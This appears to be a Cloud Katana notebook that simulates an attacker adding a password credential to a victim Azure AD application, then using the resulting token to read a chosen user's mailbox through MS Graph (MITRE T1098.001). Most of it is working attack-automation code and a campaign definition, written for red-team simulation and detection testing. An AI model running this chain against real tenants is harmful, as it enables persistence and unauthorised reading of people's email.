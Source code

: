 ```yaml
---
jupyter:
  jupytext:
    text_representation:
      extension: .md
      format_name: markdown
      format_version: '1.3'
      jupytext_version: 1.14.1
  kernelspec:
    language: python
---
```


# Add New Password Credential to Azure AD Application and Read Mail


## Metadata



|                   |    |
|:------------------|:---|
| contributors      | ['Azure'] |
| platform          | Roberto Rodriguez @Cyb3rWard0g |
| creation date     | 2022-04-28 |
| modification date | 2022-04-28 |
| Tactics           | [TA0003](https://attack.mitre.org/tactics/TA0003) |
| Techniques        | [T1098.001](https://attack.mitre.org/techniques/T1098/001) |


## Description
A campaign to simulate a threat actor adding password credentials to an Azure AD application, getting an access token with the new credentials and reading mail from a specific user via MS Graph with the security context of the Azure AD application.


## Get OAuth Access Token

```python
from msal import PublicClientApplication
import requests
import time

function_app_url = "https://FUNCTION_APP_NAME.azurewebsites.net"

tenant_id = "TENANT_ID"
public_client_app_id = "KATANA_CLIENT_APP_ID"
server_app_id_uri = "api://" + tenant_id + "/cloudkatana"
scope = server_app_id_uri + "/user_impersonation"

app = PublicClientApplication(
    public_client_app_id,
    authority="https://login.microsoftonline.com/" + tenant_id
)
result = app.acquire_token_interactive(scopes=[scope])
bearer_token = result['access_token']
```

## Set Azure Function Orchestrator

```python
endpoint = function_app_url + "/api/orchestrators/Orchestrator"
```

## Load Campaign

```python
data = {"id": "81b67a16-5218-41e6-8c6d-1fc6a10b757a", "name": "Add New Password Credential to Azure AD Application and Read Mail", "metadata": {"creationDate": "2022-04-28", "modificationDate": "2022-04-28", "platform": ["Azure"], "description": "A campaign to simulate a threat actor adding password credentials to an Azure AD application, getting an access token with the new credentials and reading mail from a specific user via MS Graph with the security context of the Azure AD application.", "contributors": ["Roberto Rodriguez @Cyb3rWard0g"], "mitreAttack": [{"technique": "T1098.001", "tactics": ["TA0003"]}]}, "authorization": [{"resource": "https://graph.microsoft.com/", "permissionsType": "application", "permissions": ["Application.ReadWrite.All", "Mail.Read"]}], "parameters": {"appClientId": {"type": "string", "metadata": {"description": "Client Id of the victim's Azure AD Application"}}, "appObjectId": {"type": "string", "metadata": {"description": "Object Id of the victim's Azure AD Application"}}, "userPrincipalName": {"type": "string", "metadata": {"description": "e-mail address to read mailbox messages from"}}}, "variables": {"victimAppClientId": "parameters(appClientId)", "victimAppObjectId": "parameters(appObjectId)", "victimUserEmail": "parameters(userPrincipalName)"}, "steps": [{"number": 1, "name": "AddPasswordToAADApp", "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "function": "New-CKAzADAppPassword"}, "parameters": {"appObjectId": {"type": "string", "defaultValue": "variable(victimAppObjectId)"}}}, "wait": 30}, {"number": 2, "name": "GetAccessToken", "dependsOn": [1], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "function": "Get-CKAccessToken"}, "parameters": {"ClientId": {"type": "string", "defaultValue": "variable(victimAppClientId)"}, "GrantType": {"type": "string", "defaultValue": "client_credentials"}, "AppSecret": {"type": "string", "defaultValue": "reference(1).secretText"}}}}, {"number": 3, "name": "GetMailboxMessages", "dependsOn": [2], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "function": "Get-CKMailboxMessages"}, "parameters": {"accessToken": {"type": "string", "defaultValue": "reference(2).access_token"}, "userPrincipalName": {"type": "string", "defaultValue": "variable(victimUserEmail)"}}}}], "file_name": "add_new_password_credential_to_azure_ad_application_and_read_mail"}
```

### Send HTTP Request

```python
http_headers = {'Authorization': 'Bearer ' + bearer_token, 'Accept': 'application/json','Content-Type': 'application/json'}
results = requests.get(endpoint, json=data, headers=http_headers, stream=False).json()

time.sleep(30)
```

### Explore Output

```python
query_status = requests.get(results['statusQueryGetUri'], headers=http_headers, stream=False).json()
query_results = query_status['output']
query_results
```
